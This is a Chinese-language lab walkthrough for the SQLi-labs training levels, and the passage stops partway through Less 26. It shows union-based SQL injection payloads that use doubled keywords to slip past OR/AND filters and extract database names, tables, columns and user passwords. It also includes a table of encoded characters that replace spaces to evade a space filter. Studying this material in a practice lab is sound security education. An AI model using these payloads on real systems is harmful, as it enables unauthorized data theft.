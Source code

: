 **Trick with OR & AND Blind （过滤了or和and的盲注）**



### 联合注入

暴库

```
?id=1 aandnd 1=2 union select 1,2,database() --+
```

暴表双写or

```
?id=1 aandnd 1=2 union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() --+
```

暴字段

```
?id=1 aandnd 1=2 union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users' --+
```

暴内容

```
?id=1 aandnd 1=2 union select 1,2,group_concat(username,passwoorrd) from  users  where 1--+
```

# **Less 26  **

**Trick with comments and space (过滤了注释和空格的注入)**



过滤了 or 和 and 可以采用 双写或者 && || 绕过

过滤注释 可以使用闭合绕过

过滤了空格 可以使用如下的符号来替代：

| 符号 | 说明         |
| :--- | :----------- |
| %09  | TAB 键(水平) |
| %0a  | 新建一行     |
| %0c  | 新的一页     |
| %0d  | return 功能  |
| %0b  | TAB 键(垂直) |
| %a0  | 空格         |

暴位置

||是或者的意思，'1则是为了闭合后面的 '，注意在hackbar中输入&&时，需要自行URL编码为%26%26，否则会报错，而输入||不需要，
